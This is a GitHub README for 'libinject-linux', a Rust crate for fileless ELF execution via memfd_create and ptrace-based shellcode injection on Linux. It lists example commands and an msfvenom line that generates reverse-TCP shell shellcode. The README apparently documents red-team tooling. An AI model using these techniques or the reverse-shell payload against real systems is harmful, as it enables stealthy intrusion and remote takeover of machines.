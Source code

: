 # libinject-linux

`libinject-linux` is a Rust crate containing implementations for process injection and fileless ELF execution techniques on Linux.

## Functionality
The following techniques are currently implemented:
- Using [memfd_create(2)](https://man7.org/linux/man-pages/man2/memfd_create.2.html) to create an anonymous file in memory, write an ELF to it, and then execute.
- Using [ptrace(2)](https://man7.org/linux/man-pages/man2/ptrace.2.html) to overwrite the RIP register of a forked process with shellcode.

## Usage
### Library
Add `libinject-linux` as a dependency to your Rust project
```bash
cargo add --git https://github.com/dustyw0lf/libinject-linux.git
```

### Library examples
>[!note]
>The functions can take binaries or shellcode from either URLs or filesystem paths.

Clone the repo
```bash
git clone https://github.com/dustyw0lf/libinject-linux.git
```

Run the `memfd` example
```bash
cargo run --example memfd
```

To run the `hollow` example, first `cd libinject-linux/libinject/examples` and then
```bash
cargo run --example hollow
```

The example shellcode was generated using the following command
```bash
msfvenom --payload 'linux/x64/shell_reverse_tcp' LHOST=127.0.0.1 LPORT=1234 --format 'raw' --platform 'linux' --arch 'x64' --out shellcode.bin
```

### Standalone Binary
TODO: Write docs for standalone binary.